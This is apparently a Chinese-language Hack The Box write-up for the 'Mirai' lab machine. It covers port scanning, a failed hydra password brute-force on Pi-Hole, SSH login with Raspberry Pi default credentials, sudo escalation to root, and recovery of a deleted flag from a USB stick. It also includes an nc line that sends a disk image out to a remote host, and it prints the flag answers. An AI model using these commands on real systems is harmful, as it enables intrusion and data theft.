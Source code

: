 #  Mirai
- URL : https://app.hackthebox.eu/machines/64
- IP : 10.129.214.20

## Recon
- http://10.129.214.20/
    - 首頁是空ㄉ
    - ![](https://i.imgur.com/GuiVLRm.png)
- Rustscan
    - ![](https://i.imgur.com/6UNUiSx.png)
- nmap
    - `nmap -A -p22,53,80,2000,32400,32469 10.129.214.20`
        - ![](https://i.imgur.com/cUzhFGB.png)
- dirsearch 掃目錄
    - ![](https://i.imgur.com/kH5A7QG.png)
- 32400 Port 跑了一個 PLEX
    - ![](https://i.imgur.com/HGGDcnR.png)
- Pi-Hole 在 `:80/admin`
    - ![](https://i.imgur.com/AtDs7wt.png)
    - https://www.exploit-db.com/exploits/48442
        - 需要密碼才能 RCE
- dnsmasq Exploit
    `https://raw.githubusercontent.com/google/security-research-pocs/master/vulnerabilities/dnsmasq/CVE-2017-14491.py`

## 爆破密碼
- `hydra -l '' -P /opt/wordlists/rockyou.txt 10.129.214.20 http-post-form "/admin/index.php?login:pw=^PASS^:Forgot password"`
    - ![](https://i.imgur.com/JUZOiSX.png)
    - 跑了很久都沒有，應該不是 QQ

## Exploit
- 看到 Pi-Hole 又有 PLEX 影音伺服器
    - 猜他是樹梅派
- 所以 pi 預設帳密
    - `pi / raspberry`
- SSH
    - ![](https://i.imgur.com/rlacgEn.png)
    - 好無聊 = =
- 取得 User Flag
    - `ff837707441b257a20e32199d7c8838d`
## 提權
- 起手式 `sudo -l`
    - ![](https://i.imgur.com/yK4zBLq.png)
    - 發現可以直接變 root
## 數位鑑識
- 取 root flag
    - ![](https://i.imgur.com/BjshpiS.png)
    - 搞事ㄛ = =
- 確認外接裝置
    - ![](https://i.imgur.com/k6Wxr0n.png)
- 到隨身碟裡找東西
    - ![](https://i.imgur.com/mkC7OFW.png)
    - 詹姆斯在搞ㄛ = =
- 直接暴力解
    - `strings` 硬碟
    - ![](https://i.imgur.com/eObJQpt.png)
    - `3d3e483143ff12ec505d026fa13e020b`
- 暴力解也可以傳回本地處理
    - 本地監聽 `nc -l 1234 > usbstick.dump`
    - 遠端用 dd 把資料丟出來
        - `sudo dd if=/dev/sdb | nc -w3 10.10.16.35 1234`


## 嘗試失敗的方法 (Testdisk)
- 使用 Testdisk 還原
    - https://blog.gtwang.org/linux/testdisk-linux-recover-deleted-files/
- 用 scp 傳過去
    - ![](https://i.imgur.com/V62F2Lt.png)
- 解壓縮
    - ![](https://i.imgur.com/BBPoXx2.png)
- 用 sudo 執行
    - ![](https://i.imgur.com/KnYrwIq.png)
- 選定硬碟 sdb
    - ![](https://i.imgur.com/oFWPTPS.png)
- 預設沒有分割區
    - ![](https://i.imgur.com/Oxf8S78.png)
- 選擇格式
    - ![](https://i.imgur.com/ZOryLMZ.png)
- 找到刪除的 `root.txt`
    - ![](https://i.imgur.com/KDOh7aX.png)
    - 選到 `root.txt` 按 C
    - ![](https://i.imgur.com/FnV37tP.png)
- 選存檔位置
    - ![](https://i.imgur.com/Bamh5Pm.png)
    - ![](https://i.imgur.com/Bz6yOmm.png)
    - 但這樣出來的檔案是空的 QQ
